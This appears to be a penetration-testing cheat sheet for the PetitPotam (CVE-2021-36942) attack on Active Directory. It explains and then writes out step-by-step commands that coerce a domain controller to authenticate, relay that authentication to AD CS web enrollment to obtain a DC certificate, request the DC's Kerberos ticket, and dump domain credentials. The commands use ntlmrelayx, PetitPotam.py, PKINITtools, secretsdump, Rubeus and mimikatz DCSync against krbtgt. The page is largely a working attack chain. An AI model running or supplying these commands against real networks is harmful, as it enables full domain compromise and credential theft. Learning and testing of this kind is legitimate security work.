 # PetitPotam

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**PetitPotam**</mark> **(CVE-2021-36942)** is an <mark style="color:purple;">**LSA spoofing vulnerability**</mark> patched in <mark style="color:yellow;">**August 2021**</mark>.&#x20;

It allows an unauthenticated attacker to coerce a Domain Controller (DC) into authenticating to a malicious host via NTLM over LSARPC (port 445) by abusing the MS-EFSRPC interface. When combined with misconfigured **Active Directory Certificate Services (AD CS)**, the attacker can relay this authentication to the CA’s Web Enrollment interface, submit a malicious **Certificate Signing Request (CSR)**, and obtain a certificate usable for domain compromise.

### <mark style="color:blue;">Prerequisites</mark>

* EFSRPC or Print Spooler enabled on DC
* AD CS with **Web Enrollment + vulnerable template**
* SMB signing not required (or relaying to HTTP)
* <mark style="color:green;">`PetitPotam`</mark> + <mark style="color:green;">`Impacket`</mark> + <mark style="color:green;">`Certipy`</mark>

## <mark style="color:yellow;">FLOW</mark>

> Vulnerability itself only coercing an auth. But as example if we combine it to NTLM relay to ADCS, we could make a big impact.

### <mark style="color:blue;">1. Getting TGT</mark>

1. Setup the Trap with <mark style="color:green;">`ntlmrelayx.py`</mark>
2. Force Auth with <mark style="color:green;">`PetitPotam.py`</mark> so DC is trying to auth to us
3. Relay the Auth to ADCS
4. Get the Cert if ADCS is misconfigured, so it thinks we are DC
5. Become DC (Kerberos). We could use cert to ask for DC's TGT.

> After getting DC's TGT there are different options:

6. **DCSync with using TGT**

### <mark style="color:blue;">**2. Stealing Hash for DCSync**</mark>

1. **Using the TGT**: The tool uses the TGT in your cache to communicate with the Key Distribution Center (KDC).
2. **User-to-User Request**: It sends a Kerberos User-to-User (U2U) request to the KDC, asking for a Service Ticket for the DC machine account.
3. **PAC**: The service ticket contains a Privileged Attribute Certificate (PAC) with the NTLM hash of the machine account.
4. **Decrypting the Ticket**: Using the AS-REP encryption key from TGT we captured earlier, the tool decrypts the ticket and extracts the PAC, which includes the NTLM hash.
5. **Extracting the Hash**: The NTLM hash (e.g., <mark style="color:green;">`313b6f...`</mark>) is then extracted from the PAC data.

### <mark style="color:blue;">3. Stealing Base64 Cert for TGT and PTT</mark>

> Here we are using Rubeus and mimikatz, so this variation is for windows

1. **Get a base64 Cert** (from <mark style="color:green;">`ntlmrelayx.py`</mark> part)
2. Using <mark style="color:green;">`Rubeus`</mark> with cert for TGT request
3. Confirming ticket in memory
4. **DCSync** with <mark style="color:green;">`mimikatz`</mark>

## <mark style="color:yellow;">LINUX</mark>

#### Starting ntlmrelay.py

> Here we are relaying NTLM request and getting a AD CS certificate

```bash
sudo ntlmrelayx.py -debug -smb2support --target http://EA-CA01.MILITECH.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

#### PetitPotam

```bash
python3 PetitPotam.py 13.13.13.13 37.37.37.37 # 13th is attacker IP, 37 is DC 
```

#### Requesting TGT with **gettgtpkinit.py**

```bash
python3 /opt/PKINITtools/gettgtpkinit.py MILITECH.LOCAL/EA-DC01\$ -pfx-base64 MIISKBdGmY= dc01.ccache
```

#### Setting TGT Environment Variable

```bash
export KRB5CCNAME=dc01.ccache
```

#### Using DC's TGT for DCSync

```bash
secretsdump.py -just-dc-user MILITECH/administrator -k -no-pass "EA-DC01$"@EA-DC01.MILITECH.LOCAL
```

***

> This is part from point 2 in Flow section, where getting hash for TGT. That's why I separated it with line above.

**TGS Request to extract a hash**&#x20;

```bash
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836asdasd MILITECH.LOCAL/EA-DC01$
```

#### DCSync by using hash

```bash
secretsdump.py -just-dc-user MILITECH/administrator "EA-DC01$"@13.13.13.13 -hashes aad3c435b:9fb4ba
```

## <mark style="color:yellow;">WINDOWS</mark>

#### **Requesting TGT and Performing PTT**

```powershell
PS C:\> .\Rubeus.exe asktgt /user:MILITECH-EA-DC01$ /certificate:MIIStgsFSADFfksCRy4= /ptt
```

#### Confirming Ticket

```powershell
PS C:\> klist
```

#### DCSync with Mimikatz

```powershell
PS C:\> .\mimikatz.exe
mimikatz # lsadump::dcsync /user:militech\krbtgt
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr" %}
